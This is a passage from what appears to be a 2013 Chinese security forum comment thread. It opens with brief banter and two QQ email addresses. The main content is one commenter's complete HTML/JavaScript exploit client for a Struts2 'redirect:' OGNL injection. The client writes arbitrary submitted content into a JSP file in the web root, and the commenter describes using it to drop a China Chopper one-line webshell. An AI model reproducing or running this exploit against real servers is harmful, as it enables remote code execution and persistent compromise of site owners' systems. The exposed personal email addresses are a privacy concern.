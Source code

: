 23#火星人 (蛋疼的地球人) 白帽子 | 2013-07-18 08:51
@小胖胖要减肥 截图完去啊
 
24#无聊哥  白帽子 | 2013-07-18 09:03
@天朝城管 不错的说法
 
25#ver007  白帽子 | 2013-07-18 12:07
111222333.jpg
 
26#九九 ([code]你说我是禽兽，可我连禽兽[/code]) 白帽子 | 2013-07-18 12:48
@ver007 851940286@qq.com ...
 
27#enter  白帽子 | 2013-07-18 13:21
@九九 258481432@qq.com
 
28#园长 (喵~) 白帽子 | 2013-07-18 13:47
@ver007 

你的程序改成POST就能直接写菜刀的一句话到WEB根目录了，把我之前的客户端简单改下就能过直接在跟目录写入css3.jsp了：

<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<title>jsp-园长</title>
</head>
<style>
.main{width:980px;height:600px;margin:0 auto;}
.url{width:300px;}
.fn{width:60px;}
.content{width:80%;height:60%;}
</style>
<script>
var poc ="redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23p%3d(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22).replaceAll(\"\\\\\\\\\",\"/\"),new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()}";
  function upload(){
    var url = document.getElementById('url').value,
      content = document.getElementById('content').value,
      form = document.getElementById('fm');
    if(url.length == 0){
      alert("Url not allowd empty!");
      return ;
    }
    if(content.length == 0){
      alert("Content not allowd empty!");
      return ;
    }
    url = url.substr(0,url.indexOf(".action")+7);
    form.action = url+"?"+poc;
    form.submit();
  }
</script>
<body>
<div class="main">
  <form id="fm" method="post">  
    URL:<input type="text" value="http://localhost/Struts2/test.action" class="url" id="url" />&nbsp;&nbsp;
    <a href="javascript:upload();">Upload</a><br/>
    <textarea id="content" class="content" name="c" ></textarea>
  </form>
</div>
</body>
</html>
 